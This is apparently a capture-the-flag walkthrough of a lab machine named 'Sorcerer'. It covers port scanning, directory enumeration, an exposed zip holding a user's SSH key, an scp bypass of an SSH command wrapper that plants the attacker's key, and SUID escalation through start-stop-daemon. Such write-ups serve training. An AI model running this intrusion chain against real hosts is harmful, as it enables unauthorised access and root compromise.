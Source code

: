 # Sorcerer

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:52 +08
Nmap scan report for 192.168.168.100
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
7742/tcp  open  msss
33603/tcp open  unknown
41637/tcp open  unknown
42193/tcp open  unknown
59253/tcp open  unknown
```

Did a detailed scan in case:

```
$ sudo nmap -p 80,111,2049,7742,33603,41637 -sC -sV --min-rate 5000 -Pn 192.168.168.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:55 +08
Nmap scan report for 192.168.168.100
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      41637/tcp   mountd
|   100005  1,2,3      52180/udp   mountd
|   100021  1,3,4      42193/tcp   nlockmgr
|   100021  1,3,4      58389/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp  open  nfs_acl 3 (RPC #100227)
7742/tcp  open  http    nginx
|_http-title: SORCERER
33603/tcp open  mountd  1-3 (RPC #100005)
41637/tcp open  mountd  1-3 (RPC #100005)
```

NFS and Port 7742 look the most promising.

### NFS Enumeration --> Dead End

I first enumerated NFS to see if there was anything to mount:

```
$ showmount -e 192.168.168.100 
Export list for 192.168.168.100:
```

There was nothing, so let's move on.

### Web Enumeration --> Zipfiles

Port 7742 just shows us a login page:

<figure><img src="../../../.gitbook/assets/image (472).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` directory scan while I tested some weak default passwords. I found a few directories present:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.168.100:7742/ -t 100  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.168.100:7742/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/10 13:58:45 Starting gobuster in directory enumeration mode
===============================================================
/default              (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/default/]
/zipfiles             (Status: 301) [Size: 178] [--> http://192.168.168.100:7742/zipfiles/]
```

The `/zipfiles` directory looks the most interesting. Within it, there were zip files named after the users on the machine:

<figure><img src="../../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

`max.zip` was the largest and hence the only one I downloaded. When unzipped, it contained all the files like his SSH key:

```
$ unzip max.zip       
Archive:  max.zip
   creating: home/max/
  inflating: home/max/.bash_logout   
  inflating: home/max/.profile       
   creating: home/max/.ssh/
  inflating: home/max/.ssh/id_rsa.pub  
  inflating: home/max/.ssh/authorized_keys  
  inflating: home/max/.ssh/id_rsa    
  inflating: home/max/tomcat-users.xml.bak  
  inflating: home/max/.bashrc        
  inflating: home/max/scp_wrapper.sh
```

However, attempts to SSH in as `max` fail.

```
$ ssh -i home/max/.ssh/id_rsa max@192.168.168.100
PTY allocation request failed on channel 0
ACCESS DENIED
```

It seems that something is blocking us. When we read the `scp_wrapper.sh` file, we see that `ssh` is being blocked, but not `scp`:

```bash
$ cat scp_wrapper.sh 
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Since `scp` is allowed, we can transfer our public key into the `authorized_keys` folder:

```
$ scp -O -i id_rsa ~/.ssh/id_rsa.pub max@192.168.168.100:/home/max/.ssh/authorized_keys
id_rsa.pub                                                 100%  391     2.2KB/s   00:00
```

Afterwards. we can just `ssh` in:

<figure><img src="../../../.gitbook/assets/image (3490).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary --> Root Shell

I did a search for SUID binaries on the machine:

```
$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.nfs
/usr/sbin/start-stop-daemon
<TRUNCATED>
```

`start-stop-daemon` is an SUID binary, and it can spawn a `root` shell for us.&#x20;

![](<../../../.gitbook/assets/image (2203).png>)
